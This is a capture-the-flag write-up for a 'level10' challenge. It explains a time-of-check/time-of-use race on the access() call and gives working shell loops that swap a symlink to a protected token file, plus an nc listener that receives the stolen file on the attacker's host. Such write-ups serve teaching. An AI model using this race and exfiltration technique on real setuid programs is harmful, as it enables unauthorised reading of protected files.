 
We have two files: executable named `level10` and a file named `token` which we can not read. The `level10` executable sends a file to a server on port 6969, but only if the user executing it have permissions to open the file, as you can see with the output of `nm` command:

``` shell
08048620 T _start
         U access@@GLIBC_2.0
0804a064 b completed.6159
```

It uses `access` system call probably to check the permisions before send it up. I you refer the `access` man page you can see the following warning:
level

``` 
       Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.  (In the example just described, a safer alternative
       would be to temporarily switch the process's effective user ID to
       the real ID and then call open(2).)
```

We can use this exploit:

- First: In one shell instance we can create a infinite loop that will create a file in `/tmp` so we have access to it, and substitute it with a symbolic link to our token file over and over again:

``` shell
while true; do 
    rm -f /tmp/dummy;
    ln -s /home/user/level10/token /tmp/dummy;
    rm -f /tmp/dummy;
    echo "dummy" > /tmp/dummy;
done
```

- Second: In another shell instance just create an infinite loop of the `level10` executable calling this file to our host (192.168.1.18` in our case):

``` shell
while true; do
    ./level10 /tmp/dummy 192.168.1.18;
done
```

- Third: Lastly in our host machine put a server listening and discard all the "dummy" content:

``` shell
nc -lk -p 6969 | grep -v 'dummy\|.*( )*.'
```

And here you have the token.
